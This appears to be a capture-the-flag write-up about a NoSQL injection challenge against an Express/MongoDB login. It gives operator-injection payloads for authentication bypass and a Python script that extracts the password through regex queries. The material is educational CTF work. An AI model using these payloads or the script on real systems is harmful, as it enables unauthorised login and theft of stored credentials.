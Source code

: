 # NoSQL Injection

### Challenge
Provide Text :  The Mark LXXXV suit needs an urgent firmware upgrade.
![[Pasted image 20220224071532.png]]

### Approach

#### Application Overview

- Application Stack
	WebServer : Express (Node.js web application server )
	![[Pasted image 20220224071626.png]]
	Fevicon : MongoDB (NoSQL Database)
	![[Pasted image 20220224061124.png]]

- App Intraction
	The main.js send POST request to API /api/login with params ```username``` and ```password``` and response is not verbose

	![[Pasted image 20220224062528.png]]

	``` JavaScript
	const login = document.getElementById('login');
	const response = document.getElementById('response');

	login.addEventListener('submit', e => {

		e.preventDefault();

		fetch('/api/login', {
			method: 'POST',
			body: new URLSearchParams(new FormData(e.target))
		})
		.then(resp => resp.json())
		.then(data => {
			if (data.logged) {
				login.remove();
				response.innerHTML = data.message;
			} else {
				response.innerHTML = data.message;
			}
		});
	});
	```

#### Exploit

MongoDB is a NoSQL Database which uses JSON Object similar syntax to store data as documents. MongoDB uses BSON (Binary JSON) data format so the direct SQL injection is not possible, but some JSON and unserialized JavaScript expressions are permitted. For MongoDB, the most common such operator is `$where` which filters the results similarly to WHERE in SQ.
If the request body is encoded as JSON and the password is changed from a string to a query expression that evaluates to true, the password check becomes irrelevant and an attacker can authenticate themself as any user.

- Validating NoSQL injection
Sending the following query string as the NodeJS module `qs` parses the query string to the JSON and we have injection validated

```
username[$eq]=admin&password[$ne]=1
```
![[Pasted image 20220224064240.png]]

- Guess the legth of password
As the flag is the password and we have to sort of perform a brutforce to extract the password.

\$regex will be used to perform regular expression search ```password[$regex]=.{n} ```, where n is the +ive number.  
.{n} will match to all the value till the length of the password and after that return error.

Using Burp intruder

![[Pasted image 20220224065002.png]]

The response leght after 45 is 233 which means password length in 45 characters.

![[Pasted image 20220224065122.png]]

- Retrieving flag

The flag will be in format knox{XXXXXXXXXXXXX}, these are 6 characters and total lenght of password is 45 thus 39 character left.

Using `$regex`  we can retrieve the password as well.
```username=admin&password[$regex]=knox\{a.*```
The regex will return true if first character in braces is a and anything after that, thus we use the same logic in our code.

![Script](pass.gif)

```Python
#!/usr/bin/python3  
import re  
import requests  
  
def main():  
	url = 'http://:9000/api/login'
	proxy= {  
	'http': 'http://127.0.0.1:8080'
	}
	headers = {'Content-Type': 'application/x-www-form-urlencoded;charset=UTF-8'}  
	fail_msg = re.compile('Failed')  
	flag = "knox\{"  
	mydata = "username=admin&password[$regex]="  
	alphabates= ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z','0','1','2','3','4','5','6','7','8','9','_','A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z']

	print("Starting printing flag")  

	for r in range(39):  
		for i in alphabates:  
			postdata = mydata+flag+i+'.*'  
			#print(postdata)  
			res=requests.post(url,headers=headers,data = postdata,proxies=proxy)  
			checkresp = re.search('Failed',res.text)  
			if (checkresp):  
			#print('wrong')  
				pass  
			else:  
				flag=flag+i  
				print(flag,end='\r')  
				break  
				print(flag+'\}')  
  
if __name__ == '__main__':  
	main()
```
